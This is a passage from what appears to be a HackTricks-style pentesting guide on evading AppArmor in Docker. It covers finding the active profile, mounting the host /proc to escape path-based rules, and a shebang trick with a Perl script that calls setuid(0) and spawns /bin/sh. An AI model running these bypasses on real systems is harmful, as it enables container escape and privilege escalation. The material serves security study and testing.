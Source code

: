 ```bash
docker inspect 9d622d73a614 | grep lowpriv
        "AppArmorProfile": "lowpriv",
                "apparmor=lowpriv"
```

Then, you can run the following line to **find the exact profile being used**:

```bash
find /etc/apparmor.d/ -name "*lowpriv*" -maxdepth 1 2>/dev/null
```

In the weird case you can **modify the apparmor docker profile and reload it.** You could remove the restrictions and "bypass" them.

### AppArmor Docker Bypass2

**AppArmor is path based**, this means that even if it might be **protecting** files inside a directory like **`/proc`** if you can **configure how the container is going to be run**, you could **mount** the proc directory of the host inside **`/host/proc`** and it **won't be protected by AppArmor anymore**.

### AppArmor Shebang Bypass

In [**this bug**](https://bugs.launchpad.net/apparmor/+bug/1911431) you can see an example of how **even if you are preventing perl to be run with certain resources**, if you just create a a shell script **specifying** in the first line **`#!/usr/bin/perl`** and you **execute the file directly**, you will be able to execute whatever you want. E.g.:

```perl
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

<details><summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
